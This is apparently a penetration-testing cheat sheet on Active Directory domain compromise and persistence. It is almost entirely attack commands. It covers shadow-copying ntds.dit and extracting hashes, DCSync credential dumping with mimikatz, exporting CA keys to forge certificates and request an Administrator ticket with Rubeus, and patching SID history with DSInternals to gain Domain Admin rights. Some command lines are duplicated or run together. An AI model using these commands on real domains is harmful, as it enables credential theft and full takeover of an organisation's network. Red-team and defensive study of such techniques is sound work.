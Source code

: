 ### Shadow copies

1. `vshadow.exe -nw -p  C:` perform a shadow copy of the `C:` drive
2. `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak` copy the ntds database to the C: drive
3. `reg.exe save hklm\system c:\system.bak` save the SYSTEM hive from the Windows registry
4. `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL` extract the credential materials

### Through Credentials

1. DCSync All with mimikatz
   - `privilege::debug`
   - `log <username>_dcdump.txt`
   - `lsadump::dcsync /domain:<domain_name> /all`
2. `cat <username>_dcdump.txt | grep "SAM Username"`
3. `cat <username>_dcdump.txt | grep "Hash NTLM"`
- You can also target only one user with the following command
  - `lsadump::dcsync /domain:<domain> /user:<Your low-privilege AD Username>`

### Through Certificates

1. See certificates stored
   - `crypto::certificates /systemstore:local_machine`
2. Patch memory to make these keys exportable
   - `crypto::capi`
   - `crypto::cng`
3. Export the certificates
   - `crypto::certificates /systemstore:local_machine /export`
4. Generate certificates
   - `ForgeCert.exe --CaCertPath <CA_cert_path> --CaCertPassword <CA_cert_password> --Subject CN=User --SubjectAltName <subject_alt_name> --NewCertPath <new_cert_path> --NewCertPassword <new_cert_password>`
5. Use Rubeus to request a TGT using the certificate
   - `Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certificate_path> /password:<password> /outfile:administrator.kirbi /domain:<domain> /dc:<dc_ip>`
6. Load the TGT to auth to DC, with mimikatz
   - `kerberos::ptt administrator.kirbi`

### Trough SID History

- If you need to fix SID history (ntds.dit): [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
1. Confirm that your user has no SID history
   - `Get-ADUser <your ad username> -properties sidhistory,memberof`
2. Get the SID of the Domain Admins
   - `Get-ADGroup "Domain Admins"Get-ADGroup "Domain Admins"`
3. Patch the ntds.dit file with DSInternals
   - `Stop-Service -Name ntds -force`
   - `Stop-Service -Name ntds -force`
   - `Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit`
   - `Start-Service -Name ntds`
   - `Restart-Service -Name NTDS`
4. Exit and Log in, verify the SID history
   - `Get-ADUser <username> -Properties sidhistory`
5. Test your Admin privileges
   - `dir \\<IP_or_name>\c$`
